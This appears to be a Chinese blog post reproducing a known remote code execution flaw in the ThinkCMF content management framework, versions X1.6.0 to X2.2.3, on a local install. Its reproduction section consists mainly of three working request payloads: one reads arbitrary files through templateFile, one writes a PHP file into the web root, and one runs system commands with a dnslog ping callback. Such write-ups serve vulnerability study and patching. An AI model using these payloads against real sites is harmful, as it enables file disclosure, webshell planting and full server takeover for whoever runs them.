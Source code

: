 #### 简介
ThinkCMF是一款基于PHP+MYSQL开发的中文内容管理框架，底层采用ThinkPHP3.2.3构建。
ThinkCMF提出灵活的应用机制，框架自身提供基础的管理功能，而开发者可以根据自身的需求以应用的形式进行扩展。
每个应用都能独立的完成自己的任务，也可通过系统调用其他应用进行协同工作。在这种运行机制下，开发商场应用的用户无需关心开发SNS应用时如何工作的，但他们之间又可通过系统本身进行协调，大大的降低了开发成本和沟通成本。

#### 影响版本
ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2
ThinkCMF X2.2.3

#### 复现环境
我这里下载的2.2.0版本，下载地址为：[thinkcmfx2.2.0](https://gitee.com/thinkcmf/ThinkCMFX/releases)

安装过程就略过了

#### 漏洞复现

##### 0x01 
payload: http://localhost/thinkcmfx220/?a=display&templateFile=README.md

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191025204617762.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hlX2FuZA==,size_16,color_FFFFFF,t_70)
##### 0x02
payload:?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>

上述请求发送后，会在thinkcmfx根目录生成test.php,我们访问一下：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191025204929291.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hlX2FuZA==,size_16,color_FFFFFF,t_70)
##### 0x03
payload:?a=fetch&content=<?php system('ping xxxxxx');?>

这种方式其实利用和pyload2一样，只不过是直接执行系统命令，我们可以用dnslog的方式检验结果，如下

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191025205321715.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hlX2FuZA==,size_16,color_FFFFFF,t_70)
说明命令成功执行